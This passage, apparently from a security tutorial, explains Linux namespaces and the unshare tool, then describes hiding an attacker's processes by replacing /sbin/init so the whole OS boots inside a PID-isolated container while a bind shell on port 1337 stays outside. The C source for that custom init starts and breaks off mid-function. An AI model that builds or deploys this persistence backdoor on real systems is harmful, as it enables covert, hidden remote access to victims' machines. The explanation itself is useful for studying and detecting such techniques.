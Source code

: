 
There are a ton of things we can do here. We can use `CLONE_NEWNS` to make a completely new copy **private** copy of the mount namespace. Meaning anything mounted in this process will not be visible from any other processes. `CLONE_NEWPID` allows us to get a brand new PID table. This is why if you look at the process list inside of a Docker container you will only see the processes inside of that container.

### Simple Is Better

So the above information is cool, but lets take a look at an easy way to test some of this stuff out. Conveniently, Linux provides us with an `unshare` binary that wraps up this functionality and makes it easier to use. Here is a simple example where the PID namespace is unshared: `~# sudo unshare -pf --mount-proc /bin/bash`. After executing this command, run `ps aux` and you will only see 2 processes instead of the entire list. The flags in this command are `-p unshare PID namespace`, `-f fork`, and `--mount-proc remount the proc file system`. The `/proc` directory needs to be remounted as the old mount will still have the original pids.

### What About This Persistence Thing?

We've figured out how this containerization thing works a bit, but how can we use it as a persistence mechanism? One thing to keep in mind is that once something is unshared from a container, it can't view the outside namespace. It can only see its own private namespace. From a persistence perspective, if we were to run malware outside of the container then it wouldn't be visible inside of the container if the PID namespace was unshared. Sounds cool right?

Now lets consider that we could containerize the entire operating system on boot, but leave a process running on the outside of the container that we, as the attacker, can access via a bind shell. When the attacker enters the bind shell, they would be outside of the container, and anything they run would be hidden from the container.

In order to containerize the entire operating system, we need to understand what happens on boot. If you run `ps aux` and look at the first process, you will usually see something like `/sbin/init` for PID 1. `/sbin/init` is the first program run after the operating system is loaded. `/sbin/init` is actually a symbolic link to `/lib/systemd/systemd`, so that is the real application that is started first. If we replace `/sbin/init` with our own binary we can have `/lib/systemd/systemd` start in a containerized environment. `/lib/systemd/systemd` will kick off all the other processes needed for a functional operating system.

### Custom /sbin/init

```c
#define _GNU_SOURCE

#include <sched.h>
#include <unistd.h>
#include <stdlib.h>
#include <stdio.h>
#include <sys/types.h>
#include <sys/wait.h>
#include <sys/mount.h>
#include <sys/socket.h>
#include <netinet/in.h>

void setup_listener(void) {
    int serv_sockfd, client_sockfd;
    struct sockaddr_in servaddr;
    pid_t pid;

    if ((serv_sockfd = socket(AF_INET, SOCK_STREAM, 0)) == -1) {
        perror("socket");
        exit(EXIT_FAILURE);
    }

    servaddr.sin_family = AF_INET;
    servaddr.sin_port = htons(1337);
    servaddr.sin_addr.s_addr = htonl(INADDR_ANY);
```